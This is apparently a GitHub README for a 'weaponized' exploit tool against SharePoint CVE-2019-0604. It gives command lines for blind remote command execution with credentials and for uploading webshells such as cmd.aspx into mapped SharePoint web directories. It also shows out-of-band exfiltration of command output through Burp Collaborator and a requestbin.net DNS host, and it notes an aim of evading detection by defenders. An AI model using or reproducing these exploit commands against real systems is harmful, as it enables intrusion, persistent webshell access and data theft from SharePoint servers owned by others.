

# Weaponized CVE-2019-0604

Automated Exploit Tool to Maximize CVE-2019-0604. 

## Requirement

The `requirements.txt` file should list all Python libraries this tool used, and they'll be installed using

```
$ pip install -r requirements.txt
```

## Manual blind exploit (with(out) credential)

```
$ python exploit.py -u <url-to-picker.aspx> -c whoami --ntlm -U <uname>:<passwd>
```

## Upload function

upload anything cool (webshell, recon tool ...)

```
Upload cmd.aspx to rcmd.aspx
--file-from /path/to/cmd.aspx --file-to /path/to/web_dir/rcmd.aspx
```

### Directory Mapping

```
Sharepoint Default Web Virtual Dir:
C:\inetpub\wwwroot\wss\VirtualDirectories\80\_app_bin\ -> <target>/_app_bin/
C:\inetpub\wwwroot\wss\VirtualDirectories\80\_vti_pvt\ -> <target>/_vti_pvt/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\template\layouts\ -> <target>/_layouts/15/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\template\controltemplates\ -> <target>/_controltemplates/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\template\identitymodel\login\ -> <target>/_login/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\template\identitymodel\windows\ -> <target>/_windows/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\wpresources\ -> <target>/_wpresources/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\isapi\ -> <target>/_vti_bin/
```

## Use OOB to get command result

### With [collaborator\_http\_api](https://github.com/tree-chtsec/burp-python-plugins) Burp Extension

1. Install `collaborator_http_api.py` into BurpSuite (Pro)?

2. Make sure BurpSuite running on the same machine with this exploit.

3. Fire, enjoy the retrieved output :)

```
$ python exploit.py -u <url-to-picker.aspx> -c whoami --collab --ntlm -U <uname>:<passwd>
```



### With DNSLog s.t. requestbin.net
```sh
$ python exploit.py -u <url-to-picker.aspx> -r <path/to/reqFile> --oob 8486990041a11aaa43ce.d.requestbin.net -c "whoami /priv"
```

Get Data From dns
```
2050524956494c4547455320494e464f524d4154494f4e
...
```

Decoded by yourself :)
```
 PRIVILEGES INFORMATION
...
```

## TODO
- [x] Argument Parser
- [x] SharePoint, CVE-2019-0604
- [ ] split cmd into multiple parts (in args.cmds)
- [x] specify binary on demand, avoiding detection by blue team. (hardcode cmd.exe currently)

## Author
* Tree
